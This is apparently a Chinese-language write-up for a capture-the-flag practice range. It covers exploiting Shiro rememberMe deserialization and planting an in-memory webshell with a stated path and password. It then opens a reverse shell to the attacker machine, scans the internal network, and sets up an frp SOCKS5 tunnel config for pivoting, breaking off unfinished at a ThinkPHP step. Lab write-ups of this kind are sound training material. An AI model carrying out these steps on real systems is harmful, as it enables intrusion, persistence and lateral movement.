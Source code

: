 # Puff-Pastry WriteUp

:::info 内网工具
这里 WriteUp 使用了 frp 进行内网代理搭建，如果使用其他工具，请自行调整
:::

在靶场部署完成后，访问宿主机的 8080 端口，应该可以访问到站点：

![Shiro site](img/image_20231133-213348.png)

## web-shiro

使用 Shiro 反序列化工具进行扫描探测，发现可以发起攻击

![Shiro attack check](img/image_20231136-213632.png)

### 通过 Shiro remember 反序列化进行 RCE 攻击

直接使用工具执行指令：

```shell
$ whoami;cat /flag.txt

root
WSS-Studio{Shiro-ad45528d-3341-41bc-8e68-7eb5b33e961c}
```

并注入内存马

![Shiro attack webshell](img/image_20231142-214203.png)

```plaintext
蚁剑 [Servlet]  注入成功!
路径：http://192.168.163.128:8080/favicondemo.ico
密码：pass1024
```

使用蚁剑进行连接，确认 webshell 工作正常

![Shiro AntSword check success](img/image_20231148-214827.png)

直接使用 As-Exploits 反弹 shell 到攻击机，借助 pwncat-cs 持久化获得 shell

![Shiro AntSword Reverse Shell](img/image_20231150-215059.png)

pwncat-cs 成功得到反弹的 shell，彻底拿下 web-shiro

![Shiro Pwncat-cs success](img/image_20231152-215204.png)

### 内网横向

获取当前容器的网络信息

```plaintext
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.2  netmask 255.255.255.0  broadcast 192.168.100.255
        ether 02:42:c0:a8:64:02  txqueuelen 0  (Ethernet)
        RX packets 8332  bytes 21683368 (20.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8718  bytes 1498028 (1.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9528  bytes 3199568 (3.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9528  bytes 3199568 (3.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用 fscan，进行内网扫描

```plaintext
[*] WebTitle: http://192.168.100.2:8080 code:302 len:0      title:None 跳转url: http://192.168.100.2:8080/login;jsessionid=0E710FB1776734553142BAD69EC52670
[*] WebTitle: http://192.168.100.3      code:200 len:931    title:None
[*] WebTitle: http://192.168.100.2:8080/login;jsessionid=0E710FB1776734553142BAD69EC52670 code:200 len:2608   title:Login Page
[*] WebTitle: https://192.168.100.1:9443 code:200 len:18201  title:Portainer
[*] WebTitle: http://192.168.100.1:8080 code:302 len:0      title:None 跳转url: http://192.168.100.1:8080/login;jsessionid=12A9CF68B8FCAFCD9C2BE709E3C95D60
[*] WebTitle: http://192.168.100.1:9000 code:200 len:18201  title:Portainer
[*] WebTitle: http://192.168.100.1:8080/login;jsessionid=12A9CF68B8FCAFCD9C2BE709E3C95D60 code:200 len:2608   title:Login Page
[+] InfoScan:https://192.168.100.1:9443 [Portainer(Docker管理)] 
[+] InfoScan:http://192.168.100.1:9000 [Portainer(Docker管理)] 
[+] http://192.168.100.3 poc-yaml-php-cgi-cve-2012-1823 
[+] http://192.168.100.1:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
[+] http://192.168.100.2:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
[+] http://192.168.100.3 poc-yaml-thinkphp5023-method-rce poc1
```

获得下一个容器的漏洞信息：

```plaintext
http://192.168.100.3 poc-yaml-thinkphp5023-method-rce poc1
```

上传 frp 后，搭建代理

```ini
# frpc.ini
[common]
server_addr = 192.168.163.133
server_port = 10000

[socks1]
type = tcp
remote_port = 11000
plugin = socks5
plugin_user = admin
plugin_passwd = password
use_encryption = true
use_compression = true

[portforward]
type = tcp
local_ip = 127.0.0.1
remote_port = 6000
local_port = 20000
```

## web-thinkphp

通过代理，成功访问到 web-thinkphp 的站点

![Thinkphp site](img/image_20231112-221210.png)

使用 ThinkPHP RCE 工具进行攻击

TODO 没写完